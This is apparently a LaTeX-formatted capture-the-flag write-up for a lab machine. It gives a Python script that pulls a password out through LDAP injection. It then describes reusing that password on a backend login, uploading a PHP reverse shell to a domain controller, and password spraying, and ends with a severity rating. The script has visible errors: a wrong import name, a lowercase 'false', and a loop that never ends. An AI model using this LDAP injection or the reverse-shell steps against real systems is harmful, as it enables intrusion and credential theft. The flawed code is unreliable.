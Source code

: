 \documentclass[a4paper]{article}
\def\tightlist{}
\begin{document}
\begin{lstlisting}
import string
import request

finish = false
keys = string.ascii_letters + "#$%&'()+,-./:;<->?@[\\]^_{|}*"
url = 'http://internal.analysis.htb/users/list.php?name='
payload = ''
result = ''

while not finish:
    for i in keys:
        print(f'\r{result}{i}', end="")
        payload = result + i
        attack = url + f"*)(description={payload}*"
        resp = requests.get(attack)
        if "technician" in resp.text:
            result = result + i
            break
    finish = False


print(result)
\end{lstlisting}

The results after firing the script is ``97NTtl*4QP96Bv'', this password is not valid for Active Directory Domain but works for the
backend login form (located at \textbf{/employees/login.php}). Here we can upload (and then review) file indiscriminately \{\ref{1:ANALYSIS:issue.md:issue13.png}\}, like a PHP reverse shell that
allowed me to get foothold on the Domain Controller \{\ref{1:ANALYSIS:issue.md:issue14.png}\}.

EXTRA : Before login inside the backend I performed password spraying with the usernames found inside and the password retrieved from the script. The user ``cwilliams'' used the same
pasword which allowed RPC access (but somehow not WinRM). \{\ref{1:ANALYSIS:issue.md:issue15.png}\}

\textbf{SSVC Decision}

\begin{itemize}
\tightlist
\item
  \textbf{Exploitation = PoC}, because \emph{``private evidence of exploitation is tested but not shared''} is true thanks to the costum python script and is a well know attack
\item
  \textbf{Automable = Yes}, the steps 1 to 4 of the kill-chain are fully automable
\item
  \textbf{Technical Impact = Partial}, we retrieved just a specific field of the LDAP records about a single user. Exploiting this doesn't automatically gives you full controll of the vulnerable component
\item
  \textbf{Mission \& Well-Being = High}, the component is directly connected with the client mission (remember this machine is a domain controller)
\item
  \textbf{Decision = Attend}, the sum of the previous choices
\end{itemize}
\end{document}
